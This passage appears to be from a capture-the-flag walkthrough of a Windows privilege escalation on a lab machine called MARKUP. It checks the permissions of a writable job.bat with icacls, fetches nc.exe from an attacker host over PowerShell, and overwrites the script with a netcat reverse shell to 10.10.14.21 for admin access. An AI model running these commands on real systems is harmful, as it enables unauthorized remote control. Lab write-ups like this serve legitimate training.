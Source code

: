 Looking around we find a `Log-Management` folder in `c:\`
There is a `job.bat` script that requires admin privs to run and clears system event logs

We can use `icacls` command to view permissions on file

```
daniel@MARKUP c:\Log-Management>icacls job.bat
job.bat BUILTIN\Users:(F)
        NT AUTHORITY\SYSTEM:(I)(F)
        BUILTIN\Administrators:(I)(F)
        BUILTIN\Users:(I)(RX)
```

The (F) after `BUILTIN\Users` means the Users group has FULL permissions of the file. Meaning you can write to it.

We can write a reverse shell to it by using `echo`
`echo PAYLOAD > job.bat`

We will need to get nc.exe onto the server. I have one saved to `/opt/nc.exe'` serve it up and get it using this command

`powershell -c "Invoke-WebRequest" -Uri 'http://10.10.14.21:80/nc.exe' -OutFile 'c:\log-management\nc.exe'`



We then write our reverse shell payload to `job.bat`

```
echo c:\Log-Management\nc.exe -e cmd.exe 10.10.14.21 4444 > job.bat
```

Set up a listener on your attack machine and you will receive a shell back with admin privs








